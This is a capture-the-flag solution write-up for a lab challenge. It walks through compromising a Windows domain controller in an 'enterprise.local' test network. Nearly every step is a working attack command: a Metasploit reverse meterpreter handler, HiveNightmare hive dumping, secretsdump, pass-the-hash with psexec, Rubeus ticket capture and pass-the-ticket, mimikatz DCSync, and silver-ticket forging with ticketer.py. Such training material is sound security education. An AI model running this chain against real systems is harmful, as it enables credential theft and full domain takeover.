# Sack the DC Solution

    In this challenge you are given a machine named 'pc3-win10-victim'. You need to use this machine to open up a listener for a vulnerable machine on a domain controlled network.

    Once in that machine, you will use the HiveNightmare exploit to authenticate as a privileged user in order to run the Rubeus listener and gain the first flag.

    You will then use the SpoolSample exploit to authenticate to the Domain Controller, where you will find a second flag.

    You will then have to complete a few things inside the Domain Controller, such as adding a privileged user and adding a file onto the machine.

1. To set up your metasploit handler to receive the incoming connection from the Windows machine follow these steps:
    - Open up terminal and type "msfconsole"
    - From the Metasploit console, type the following commands

    ```
    > use exploit/multi/handler
    > set payload windows/x64/meterpreter_reverse_http
    > set lhost 0.0.0.0
    > set lport 80
    > exploit -j
    ```
    - Your handler is now set up as a job and is awaiting a connection from the Windows machine.
2. To enter that session, type in "sessions" and find the session ID for "dfloyd", enter that session by typing `sessions -i #` (where # is the ID).

     

3. Next, you are going to want to upload your exploits (SpoolSample and HiveNightmare):

    ```
    upload Desktop/ExploitTools/SpoolSample.exe C:\\Users\\dfloyd\\Desktop
    upload Desktop/ExploitTools/Invoke-HiveNightmare.ps1  C:\\Users\\dfloyd\\Desktop
    ```

    

4. The `HiveNightmare.ps1` script will gather the files needed to elevate permissions. Execute the HiveNightmare exploit by running the following commands: 

    ```
    shell
    powershell
    cd C:\Users\dfloyd\Desktop
    ./Invoke-HiveNightmare.ps1 -path C:\\Users\\dfloyd\\Desktop
    ```

     

5. To download the files on your Kali Linux machine, you will need to click control + c and type "y" when prompted. This will bring you back to the meterpreter window. Once in that window type the following commands:
    ```
    download C:\\Users\\dfloyd\\Desktop\\Sam.hive1 /home/user/
    download C:\\Users\\dfloyd\\Desktop\\Soft.hive1 /home/user/
    download C:\\Users\\dfloyd\\Desktop\\Sys.hive1 /home/user/
    ```
     

6. Click `File -> New Tab` to open up another terminal window. Execute the following command to see teh local SAM hashes of the Window's machine that were dumped by HiveNightmare: 

    ```
    secretsdump.py -system Sys.hive1 -security Soft.hive1 -sam Sam.hive1 local
    ```

    

7. To connect to Window's machine as user instead of dfloyd, type the following, where userhash is the hash that follows "User:1001:" and ends before ":::" and IP is the IP address of the windows machine.

    ```bash
    psexec.py -hashes Userhash user@ip cmd.exe
    ```

    

    To find the IP you can go into the other tab, type `shell` then `ipconfig`.

8. You should now be logged in as `nt authority\system`. A simple `whoami` command would tell you that. From here you can obtain the first token using the following commands:

    ```
    powershell
    cd C:/Users/Administrator/Desktop
    cat token.txt
    exit
    ```

9. Next you are going to want to active a TGT Monitoring listener by using the following commands: 

    ```
    cd C:/Users/dfloyd/Desktop
    Rubeus.exe monitor /interval:1
    ```

    

10. Navigate back to the other tab, with the Rubeus listener remaining open, enter a powershell session (`shell -> powershell`) and enter the following commands to use the spoolsample exploit:

    ```
    cd C:/Users/dfloyd/Desktop
    ./SpoolSample.exe dc1.enterprise.local WIN10-A.enterprise.local
    ```

    

11. Once you run the above command, move over to the Rubeus listener tab. There will be a new TGT for `DC1$@ENTERPRISE.LOCAL`. There is a large Base64EncodedTicket. Copy and paste this ticket into a text editor and remove all of the blank space so the entirety of the ticket is in one line.

    

12. Once you have the ticket with all of the whitespace removed, go back to the tab that is logged in as `enterprise\dfloyd`. Enter the command

    ```
    ./Rubeus.exe ptt /ticket:*paste ticket*
    ```

    
    To make sure your ticket was imported, use the command:

    ```
    ./Rubeus.exe klist
    ```

     You should see a ticket that has "DC1$" as Client Name.

13. Enter the following commands to dump the ticket:

    ```
    ./mimikatz
    lsadump::dcsync /user:DC1$
    ```

    

14. Next you will want to open a new tab on the Kali machine. Navigate to `Desktop/impacket-0.9.23/examples`. To generate a ticket, enter the command below replacing the nthash and domain-sid with values found in the previous step.

    Note: the "-1000" of the Object Security ID found above is omitted from the domain-sid. 
    ```
    ./ticketer.py -nthash 0c457802a54564e590a030c9e38a8051 -domain-sid S-1-5-21-764921041-1137357192-4117662831 -domain enterprise.local -spn cifs/dc1.enterprise.local Darth
    ```
    - nthash is the HASHNTLM
    - domain-sid is the Object Security ID
    - domain is enterprise.local
    - spn is cifs/dc1.enterprise.local Administrator

    

    Enter the command:

    ```
    export KRB5CCNAME=Darth.ccache
    ```

15. Next type in the following command to open a shell:
    ```
    python3 psexec.py ENTERPRISE.local/Darth@DC1.ENTERPRISE.local -k -no-pass
    ```

    

    If this command fails, type in the following then try again.
     ```
    sudo ntpdate dc1.enterprise.local
    ```

16. From the same window, open Powershell by typing `powershell`. Then navigate to the administrator desktop to get the final token.

    ```powershell
    cd C:\Users\Administrator\Desktop
    cat token.txt
    ```